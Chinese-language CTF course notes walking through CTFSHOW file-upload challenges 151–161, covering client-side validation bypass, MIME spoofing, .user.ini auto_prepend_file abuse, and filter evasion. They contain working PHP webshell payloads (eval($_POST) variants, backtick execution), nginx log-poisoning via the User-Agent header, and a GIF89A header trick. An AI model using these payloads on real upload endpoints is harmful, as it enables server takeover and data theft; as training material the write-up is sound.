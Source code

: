 # 31-WEB攻防-通用漏洞&amp;文件上传&amp;js验证&amp;mime&amp;user.ini&amp;语言特性

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135890043-ca33350f-b997-44b1-8349-4c5491a49020.png)

```plain
#知识点：
1、文件上传-前端验证
2、文件上传-黑白名单
3、文件上传-user.ini妙用
4、文件上传-PHP语言特性

#详细点：
1、检测层面：前端，后端等
2、检测内容：文件头，完整性，二次渲染等
3、检测后缀：黑名单，白名单，MIME检测等
4、绕过技巧：多后缀解析，截断，中间件特性，条件竞争等

#本章课程内容：
1、文件上传-CTF赛题知识点
2、文件上传-中间件解析&编辑器安全
3、文件上传-实例CMS文件上传安全分析

#前置：
后门代码需要用特定格式后缀解析，不能以图片后缀解析脚本后门代码(解析漏洞除外)
如：jpg图片里面有php后门代码，不能被触发，所以连接不上后门
```

- CTFSHOW-文件上传-151到161关卡

------

```plain
151
查看源代码，看看是否有前台验证。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135884637-d5c10dc7-fd93-49f8-ace7-ec4c59d7a67b.png)

看到外部引用的JavaScript代码，进行进一步跟踪

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135884660-80a890eb-c59e-4411-adc3-42fba09ee2cf.png)

```plain
发现过滤性代码：<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'png'}">
鼠标放在上传图片中，然后右键元素，对<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'png'}">进行修改，把png改为php，就可以进行文件上传php文件
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135884781-6d008f8c-2bd6-436b-a380-08b0ef115575.png)

上传php代码后，进行flag的读取。查找flag位置：x=system('ls ../');

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135884820-2d27dc53-468c-4090-8c0b-1ed3a6521183.png)

读取flag：x=system('tac ../flag.php');

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885163-867c4419-95e5-47ca-a251-346511a7920f.png)

```plain
152
查看源代码，把png修改为php，发生文件类型不合规。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885158-75d21fcc-eb60-4ebb-bd72-5ed8b834188c.png)

接着把Content-Type: application/octet-stream修改Content-Type: image/png类型，能够上传了php

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885164-645448b9-33bb-4813-bae9-07c6a3d25a76.png)

```plain
接着就是获取flag位置，读取flag
获取flag：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885296-42643a10-7e78-474b-8250-56208063fb48.png)

```plain
153
继续修改png和Content-Type的值，但是饶过不了了。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885483-b7ebdfde-7832-442c-86ce-423cb3206432.png)

```plain
思考：修改mime不生效，还有什么绕过方法：00截断，多文件格式后缀解析，大小写（但是提示下载），php5（提示下载），等。
这里我们使用的是.user.ini（与.htaccess类似，但是.htaccess搭建在Apache中才能使用。.user.ini是与PHP挂钩的。）
.user.ini解释：https://www.php.net/manual/zh/configuration.file.per-user.php
上传一个.user.ini，内容：auto_prepend_file=test.png
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885545-8c728009-9a85-47e1-9932-a0753ba0b5bf.png)

接着上传png，写上后门代码：<?php eval($_POST['x']);?>

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885541-12a86d31-fd7e-4f42-809b-86ec48a3e117.png)

```plain
然后访问：upload目录，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885788-f05738ca-62f0-4940-b828-341858709dc7.png)

.user.ini的利用条件看似看简单，上传一个.user.ini，包含一个文件，上传文件就可以利用。但是这个需要一个指向性文件index.php，调用.user.ini，使.user.ini生效。访问并不是访问.user.ini和test.png，而是访问一个index.php文件（首先指向文件）。参考https://blog.csdn.net/z13615480737/article/details/89084360

```plain
154，155
上传.user.ini：auto_prepend_file=test.png
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135886104-133bb2a7-d798-4b41-8e4e-ffebb6d08e7c.png)

```plain
上传test.png：<?php eval($_POST['X']);?>
发现上传失败，对内容进行检测。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135885946-e3568990-fb3e-4e15-998e-93f9b82c5e79.png)

```plain
经过删除测试，对<?php进行了过滤。
那么如何绕过这个内容过滤呢，后门代码应该怎么执行呢。
能不能不写<?php也能执行出php代码效果？
下面这几种都是可以的：
<? echo '123';?>               //前提是开启配置参数short_open_tags=on
<?=(表达式)?>                  //不需要开启参数设置
<% echo '123';%>               //前提是开启配置参数asp_tags=on
<script language=”php”>echo '1'; </script>   //不需要修改参数开关
选择第二种写法<?=eval($_POST['x']);?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135886026-45035b56-f9dc-4b3f-8ee8-ec462cbe532c.png)

```plain
然后访问：upload/index.php文件，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135887130-0ca17bd7-d9e6-45ce-9401-93cf3d9dd9f9.png)

```plain
156
上传.user.ini和test.png
test.png：<?=eval($_POST['x']);?>存在过滤
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135886925-efc7ed5f-32d8-4bf3-b8a6-b90ab0886035.png)

```plain
删除测试，发现过滤了[]两个符号
php支持{}符号代替[]符号
<?=eval($_POST{'X'});>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135887046-ca3c938d-0738-42a0-a4b4-70235cad4d96.png)

```plain
然后访问：upload/index.php文件，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
157 158
上传.user.ini：auto_prepend_file=test.png
上传test.png：<?=eval($_POST{'X'});>
test.png对内容进行了检测
对分号进行过滤，那么想不要分号能不能执行语句。那么可以直接调用来执行。

可以直接上传读取文件的代码：<?=system('tac ../fl*')?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135887043-02ed4127-3937-4782-a335-6a809a1b6689.png)

直接访问/upload/index.php

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135887297-3c75105c-fc8f-4a2a-964c-31161e21c4f7.png)

```plain
159
上传.user.ini：auto_prepend_file=test.png
上传test.png：<?=system('tac ../fl*')?>
发现<?=system('tac ../fl*')?>进行了过滤()
直接用反引号来进行命令执行`
这样构造payloa：<?`tac ../f*?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135889355-664bf780-d0e4-4ede-8f7b-8b1ed0dc80d1.png)

这样读取是不可以的，需要加上flag的相对路径，<? echo `tac /var/www/html/f*`?> 访问upload就可以获取flag

```plain
160
上传.user.ini：auto_prepend_file=test.png
上传test.png：<? echo `tac /var/www/html/f*`?>
发现对test.png 的内容进行了过滤`

这次关卡用到的是包含日志性文件，日志里面会记录访问者的信息：ua头，访问地址，访问ip 等。
运行linux nginx的日志路径：/var/log/nginx/access.log
包含日志文件：test.png
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135890795-13bf5dd1-7e84-4caf-9c95-c66e257dc437.png)

发现日志文件会记录ua头信息，在UA头中写入后门代码<?php eval($_POST['x']);?>

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135889720-609866a7-8f15-4596-9193-779cd5e63897.png)

```plain
161
上传.user.ini,直接被拦截
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135887734-2162c880-76a2-4e70-a63e-b67dc4eb9d9b.png)

换正常的图片看看能不能上传，发现是文件头过滤，在代码上加上GIF89A

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135888332-b271479d-07a2-4e3c-a7f6-1ebaad130041.png)

```plain
上传png：GIF89A <?=include"/var/lo"."g/nginx/access.lo"."g"?>
访问upload，修改UA头，写上后门代码。就可以读取flag
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135890871-991289e6-659b-4a68-ab4f-566785bd3c8a.png)